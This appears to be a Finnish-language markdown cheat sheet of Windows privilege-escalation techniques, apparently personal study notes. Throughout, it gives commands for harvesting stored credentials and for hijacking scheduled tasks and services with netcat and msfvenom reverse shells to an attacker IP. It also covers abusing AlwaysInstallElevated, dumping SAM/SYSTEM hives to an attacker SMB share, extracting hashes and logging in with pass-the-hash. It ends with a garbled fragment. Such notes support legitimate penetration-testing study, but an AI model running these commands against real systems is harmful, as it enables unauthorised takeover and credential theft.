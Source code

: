## Privilege Escalation: Windows

Windowsissa tavalliset käyttäjät kuuluvat Users -käyttäjäryhmään, administraattorit Administrators -käyttäjäryhmään.

Erityiskäyttäjätunnukset:

SYSTEM / LocalSystem: Käyttöjärjestelmän käyttämä tunnus käyttöjärjestelmän sisäisiin toimintoihin. Adminejakin korkeammat oikeudet.

Local Service: Oletuskäyttäjä "minimioikeuksilla" Windowsin palvelujen ajamiseen, anonyymit yhteydet verkon yli.

Network Service: Sama kuin yllä, mutta käyttää tietokoneen tunnuksia autentikoitumiseen verkon yli.

**Selkokielisten tunnusten etsimispaikkoja**

WDS:llä asennetut "Unattended Windows Installations" saattavat jättää admin-tunnuksia näihin sijainteihin:
```bash
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
Powershell-historia (cmd.exe ajettuna):
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Tallennetut käyttäjätunnukset:
```cmd
cmdkey /list
```
Jos löytyy kokeilemisen arvoisia, niin:
```cmd
runas /savecred /user:USERNAME cmd.exe
```
IIS konfiguraatioon tallennetut tunnukset:
```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
PuTTY:n tallentamat Proxy-tunnukset:
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
**Ajastetut tehtävät**

Listaa ajastetut tehtävät:
```cmd
schtasks
```
Lisätietoja yksittäisestä tehtävästä:
```cmd
schtasks /query /tn *TaskName* /fo list /v
```
Task to run kertoo ajettavan tiedoston (esim. .bat scripti), Task as user kertoo käyttäjätunnuksen, jolla tehtävä ajetaan. Alla olevalla komennolla tarkistetaan ko. tiedoston kirjoitusoikeudet, ja jos nykyisellä käyttäjällä voidaan kirjoittaa, niin voidaan muokata scriptiä, ja se pyörähtää Task as user-tunnuksella. 
```cmd
icacls C:\polku\tiedostoon\scripti.bat
```
Jos esim. \USERS -käyttäjillä kirjoitusoikeudet, voidaan tehdä reverse shell netcatilla:
```cmd
echo c:\polku\netcatiin\nc64.exe -e cmd.exe *Hyökkääjän IP* 9999 > C:\polku\scriptiin\scripti.bat
```
Netcat -kuuntelumoodiin omalle koneelle porttiin 9999:
```cmd
nc -lvp 9999
```
Seuraavan ajastuksen yhteydessä aukeaa shell "Task as user" -tunnuksella.

**AllwaysInstallElevated**

Windowsin asennustiedostot .msi käynnistyvät oletuksena käyttäjän oikeuksilla, mutta voidaan konfiguroida käynnistymään myös korkeammilla oikeuksilla. Jos **molemmat** alla olevat rekisteriarvot saadaan päälle onnistuneesti:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
niin voidaan luoda msfvenomilla .msi payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f msi -o payload.msi
```
ja vastaavilla asetuksilla Metasploit Handler vastaanottamaan yhteys. Kun payload.msi on siirretty kohteelle, ajetaan ao. komento ja reverse shell pitäisi aueta:
```cmd
msiexec /quiet /qn /i C:\polku\kohteeseen\payload.msi
```
## Servicet

Servicet pyörivät Service Control Managerin (SCM) kautta. Jokaisella servicellä on vastaava ohjelma, joka ajetaan. Servicestä tietoa esim.
```cmd
sc qc apphostsvc
```
BINARY_PATH_NAME = ohjelman polku, SERVICE_START_NAME = tunnus, jolla service käynnistetään.

Tarkistetaan ohjelman oikeudet icaclsilla:
```cmd
icacls C:\polku\ohjelmaan\service.exe
```
Jos käyttäjällä muokkausoikeudet (M)/(F), voidaan uudelleenkirjoittaa ko. ohjelma ja se ajetaan servicen ajavalla käyttäjätunnuksella. msfvenom payload esim:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=*Hyökkääjän IP* LPORT=*Hyökkääjän portti* -f exe-service -o service.exe
```
Siirretään päälle, ja annetaan oikeudet:
```cmd
icacls service.exe /grant Everyone:F
```
Jonka jälkeen netcat kuuntelija --> reverse shell, kun service käynnistyy uudelleen.

**Unquoted Service Paths**

Jos servicen BINARY_PATH_NAME ei ole laitettu oikein heittomerkkeihin, syntyy välilyönneistä mahdollisuus hyväksikäytölle. Esim. polun C:\MyPrograms\SFTP Siirto Työkalu\run.exe yrittää SCM arvata oikeaa polkua järjestyksessä:

C:\MyPrograms\SFTP.exe, argumentit "Siirto", "Työkalu\run.exe"

C:\MyPrograms\SFTP Siirto.exe, argumentit "Työkalu\run.exe"

C:\MyPrograms\SFTP Siirto Työkalu\run.exe

Jos käyttäjällä on MyPrograms -kansioon kirjoitusoikeudet, voidaan luoda msfvenomilla payload nimellä SFTP.exe ja viedä se MyPrograms -kansioon, jolloin servicen uudelleenkäynnistyessä se suoritetaan serviceen asetetulla käyttäjätunnuksella.

**Servicen config-muutosoikeudet**

Jos käyttäjä voi muuttaa servicen konfigurointia, voi hyökkääjä muuttaa suoritettavan komennon toiseksi ja saada tätä kautta ajettua omaa koodia servicen käynnistystunnuksena. Apuna voidaan käyttää windowsin AccessChk -työkalua. Tarkistetaan servicen configurointioikeudet:
```cmd
C:\polku\accesschk64.exe -qlc servicen_nimi
```
Jos havaitaan, että konffeja voidaan muuttaa: luodaan payload, tuodaan kohteelle, annetaan ajo-oikeudet:
```cmd
icacls C:\polku\payload.exe /grant Everyone:F
```
jonka jälkeen muutetaan config ohjaamaan payloadiin (huomaa välilyönnit):
```cmd
sc config servicen_nimi binPath= "C:\polku\payload.exe" obj= LocalSystem
```

## Käyttäjän privilege
```cmd
whoami /priv
```
Lista vaarallisista privilegeistä: https://github.com/gtworek/Priv2Admin

**SeBackup / SeRestore

Jos käyttäjällä SeBackup / SeRestore oikeudet, voidaan esim. kopioida SAM ja SYSTEM rekisteritiedot ja saada Administratorin salasana-hash käyttöön. Command promt auki Run as administrator -> 
```cmd
reg save hklm\system C:\polku\system.hive
```
```cmd
reg save hklm\sam C:\polku\sam.hive
```
Tiedostot voidaan siirtää hyökkääjän koneelle esim. käynnistämällä hyökkääjän koneelle pieni SMB-palvelin ja kopioimalla tiedostot sinne. Esim. ohjataan public -niminen kansio ja ohjataan se hyökkääjän koneella share-kansioon, ja käyttäjätunnus+salasana korkatulta Windows-käyttäjältä:
```cmd
mkdir share
```
```cmd
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username KÄYTTÄJÄ -password SALASANA public share
```
Uhrin koneella kopiointi:
```cmd
copy C:\polku\sam.hive \\HYÖKKÄÄJÄN_IP\public\
```
```cmd
copy C:\polku\system.hive \\HYÖKKÄÄJÄN_IP\public\
```
Tiedostoista hashit:
```cmd
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
Ja kirjautuminen hasheja käyttämällä:
```console
root@1.1.1.1> python3.9 /opt/impacket/examples/psexec.py -hashes q1w2e3r4t5y6u7iu:9o8i7u6y5t4r3e2w12q administrator@UHRIN_IP
```console
foo@bar:~$ whoami
foo
```
